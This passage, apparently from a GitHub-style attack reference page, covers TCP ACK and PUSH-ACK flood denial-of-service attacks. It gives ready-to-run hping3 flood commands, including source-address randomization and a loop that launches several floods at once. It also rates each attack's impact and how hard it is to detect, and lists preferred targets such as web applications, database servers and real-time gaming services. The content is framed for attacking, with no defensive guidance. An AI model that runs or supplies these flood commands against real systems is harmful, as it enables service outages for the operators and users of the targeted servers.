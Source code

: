 ## 🔧 Attack Tools & Commands
- **hping3**: `hping3 -AP -p 80 --flood target`
- **Scapy**: Custom PUSH-ACK flood scripts
- **Packeth**: GUI-based packet crafting
- **Ostinato**: Professional packet generator

### Manual Testing:
```bash
# Basic ACK flood
hping3 -A -p 80 --flood -V target_ip

# PUSH-ACK flood
hping3 -AP -p 80 --flood -V target_ip

# PUSH-ACK with data
hping3 -AP -p 80 --flood -d 1024 target_ip

# Multiple flag combinations
for flags in A AP PA; do
  hping3 -$flags -p 80 --flood target_ip &
done

# Randomized source PUSH-ACK
hping3 -AP -p 80 --rand-source --flood target_ip
```

## 💡 Historical Context
- **Late 1990s**: PUSH flag exploitation discovered
- **Application Awareness**: Recognized application layer impact
- **Modern DDoS**: Common in sophisticated attack vectors
- **IoT Integration**: Used in modern botnet campaigns

## 📊 TCP Flag Attack Effectiveness
| Attack Type | Flags | CPU Impact | App Impact | Detection |
|-------------|-------|------------|------------|-----------|
| ACK Flood | ACK | Medium | Low | Moderate |
| PUSH-ACK Flood | ACK+PSH | High | High | Moderate |
| Data PUSH-ACK | ACK+PSH+Data | Very High | Very High | Hard |
| Mixed Flood | Variable | High | Medium | Hard |

## 🎯 Target Selection
Preferred targets:
- **Web applications** with real-time processing
- **Database servers** with TCP connections
- **Real-time applications** (gaming, streaming)
- **API endpoints** processing immediate requests
- **Chat/messaging servers** expecting PUSH data
